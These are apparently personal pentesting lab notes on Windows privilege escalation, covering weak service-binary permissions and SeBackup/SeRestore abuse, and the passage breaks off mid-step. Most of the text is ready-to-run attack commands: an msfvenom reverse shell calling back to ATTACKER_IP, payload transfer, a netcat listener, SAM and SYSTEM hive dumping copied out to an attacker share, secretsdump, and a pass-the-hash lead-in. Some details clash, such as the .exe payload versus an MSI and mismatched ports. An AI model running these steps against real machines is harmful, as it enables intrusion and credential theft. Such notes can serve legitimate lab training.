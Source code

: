 ### **Insecure Permissions on Service Executable**

- If the service's executable has weak permissions, an attacker can replace it
with a malicious file.
    - use tool power up
        - `Import-Module .\PowerUp.ps1`
        - `Set-ExecutionPolicy Bypass -Scope Process -Force`   to Since PowerShell may block scripts, you need to **bypass** execution restrictions:
        - `Invoke-AllChecks`
    - or use manual in power shell to show all service
        - `Get-WmiObject Win32_Service | Select-Object Name, DisplayName, PathName | Format-Table -AutoSize`
    - To check a **specific service**, To understand how this works use :
        - `sc qc service-name`
    - when found the service vuln Check executable permissions: you must find user can write or have all access to this service
        - **`icacls < binary-bath of service >`**
    - make the reverse shell
        - **`msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe`**
    - Transfer the MSI File to the Target
        - `python3 -m http.server 8080`
    - On **Windows**, download the file using PowerShell:
        - `Invoke-WebRequest -Uri "[http://<your-ip>:8080/exploit.msi](http://192.168.1.100:8080/exploit.msi)" -OutFile "**C:\Windows\Temp\malicious.msi**"`
    - Set Up a Netcat Listener on Kali
        - `nc -nvlp 4444`

## SeBackup / SeRestore

### Exploitation Steps:

- we can check our privileges with the following command:
    - **`whoami /priv`**
- To backup the SAM and SYSTEM hashes, we can use the following commands:
    - `reg save hklm\\system C:\\Users\\THMBackup\\system.hive`
    - `reg save hklm\\sam C:\\Users\\THMBackup\\sam.hive`
- Transfer hives to the attacker's machine using SMB
    - **`copy C:\Users\THMBackup\sam.hive \\ATTACKER_IP\public\`**
    - **`copy C:\Users\THMBackup\system.hive \\ATTACKER_IP\public\`**
- And use impacket to retrieve the users' password hashes:
    
    <aside>
    💡
    
    - **python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL**
    </aside>
    
- We can finally use the Administrator's hash to perform a Pass-the-Hash attack and gain access to the target machine with SYSTEM privileges:
    
    <aside>
    💡
    